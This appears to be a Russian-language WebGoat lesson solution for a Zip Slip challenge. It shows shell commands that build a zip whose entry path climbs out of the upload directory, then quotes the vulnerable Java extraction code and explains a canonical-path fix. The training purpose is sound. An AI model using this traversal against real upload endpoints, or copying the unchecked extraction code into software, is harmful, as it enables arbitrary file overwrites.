 === Решение

Сначала создадим zip-файл с изображением внутри:

[source, subs="macros"]
----
curl -o webwolf.jpg webWolfRootLink:images/wolf.png[noLink, target=images/wolf.png]
zip profile.zip webwolf.jpg
----

Теперь давайте загрузим это как наше изображение профиля. Мы видим, что ничего не происходит, как и упоминалось в задании, в программном обеспечении есть ошибка, и результат, который мы видим на экране:

[source]
----
Zip-файл извлечен успешно, не удалось скопировать изображение. Пожалуйста, свяжитесь с нашей службой поддержки.
----

Давайте создадим zip-файл, который перемещается наверх, а затем обратно в указанный каталог в задании.

Сначала создадим структуру каталогов:

[source, subs="macros"]
----
mkdir -p webGoatTempDir:temppath[]PathTraversal/username:user[]
cd webGoatTempDir:temppath[]PathTraversal/username:user[]
curl -o username:user[].jpg webWolfRootLink:images/wolf.png[noLink, target=images/wolf.png]
zip profile.zip ../../../../../../../..webGoatTempDir:temppath[]PathTraversal/username:user[]/username:user[].jpg
----

Теперь, если мы загрузим этот zip-файл, он решит задачу.

=== Почему это сработало?

В коде разработчики использовали следующий фрагмент:

[source%linenums]
----
ZipFile zip = new ZipFile(uploadedZipFile);
Enumeration<? extends ZipEntry> entries = zip.entries();
while (entries.hasMoreElements()) {
  ZipEntry e = entries.nextElement();
  File profilePicture = new File(uploadDirectory, e.getName());
  InputStream is = zip.getInputStream(e);
  Files.copy(is, f.toPath(), StandardCopyOption.REPLACE_EXISTING);
}
----

Исправление заключается в том, чтобы убедиться, что полученный файл в строке 5 находится в ожидаемом каталоге. Как и в случае с предотвращением обхода пути, используйте `profilePicture.getCanonicalPath()`, чтобы убедиться, что путь такой же, как вы ожидаете.
